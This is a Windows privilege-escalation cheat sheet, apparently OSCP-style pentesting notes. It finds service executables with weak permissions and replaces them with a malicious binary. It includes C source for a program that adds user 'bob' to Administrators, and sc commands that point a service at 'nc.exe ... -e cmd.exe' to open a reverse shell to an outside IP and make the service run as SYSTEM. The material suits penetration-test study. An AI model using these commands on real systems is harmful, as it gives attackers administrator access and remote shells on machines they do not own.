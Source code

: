 ### Windows Configuration Issues
Great Resources:
* https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html
* https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
* And more listed in the examples below

#### Weak Service Permissions

NOTE: Hi-priv shell sessions that are created through weak services will die quickly, like in 20-30 sec, make sure to migrate (Meterpreter) to a new process, or start a create a new process by opening another shell with nc.exe

##### Insecure File/Folder Permissions with `wmic` and `icacls`
Use `icacls [.exe]` to check for insecure permissions such as `Everyone:(I)(F)` within service executables (within `services.msc`), and then with a non-privileged user, replace that file with a malicious file.

Automatically find weak service file permissions with the following:
```cmd
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> services.txt
for /f eol^=^"^ delims^=^" %a in (services.txt) do cmd.exe /c icacls "%a" >> permissions.txt
# look for `Everyone:(...)(F)`, `BUILTIN\Users:(...)(F)`, `NT AUTHORITY\Authenticated Users:(...)(M)`, `NT AUTHORITY\Authenticated Users:(...)(C)`, `[Computer]\[Your User]:(...)(F)` in permissions.txt. transfer it out to kali if needed, as it it'll be easier to search
```
Upload a reverse shell executable and replace the original service executable with the malicious one with `copy useradd.exe C:\the\path\to\service\binary.exe`. The next time the service is started, the malicious executable will run with SYSTEM privileges.

Tools:
* `icacls`

Alternatively, make the current low-priv user an Administrator. Prepare a malicious executable to give bob administrative rights on Kali:
```c
#include <stdlib.h>
int main() {
  int i;
  i = system("net localgroup administrators bob /add");
  return i;
}
```
Compile it to an executable using mingw32: `i686-w64-mingw32-gcc -o useradd.exe useradd.c`

Resources:
* http://travisaltman.com/windows-privilege-escalation-via-weak-service-permissions/
* https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
* https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html

##### Insecure Service Permissions with `accesschk.exe` and `sc`
```cmd
accesschk.exe -accepteula
accesschk.exe -uwcqv "Everyone" *
accesschk.exe -uwcqv "Authenticated Users" *
accesschk.exe -uwcqv "Users" *
# find a service that returns `SERVICE_ALL_ACCESS`.
sc qc Apache # query the service to check whether it runs as system, it's binary path, etc.
sc config Apache binPath= "C:\Windows\TEMP\nc.exe 192.168.1.23 4444 -e cmd.exe" # or "net localgroup administrators bob /add"
sc config Apache obj= ".\LocalSystem" password= "" # this makes the service run as SYSTEM. do this for services that has smth other than LocalSystem in SERVICE_START_NAME
sc config Apache start= demand # this allows a service to be started. do this if a service is disabled
```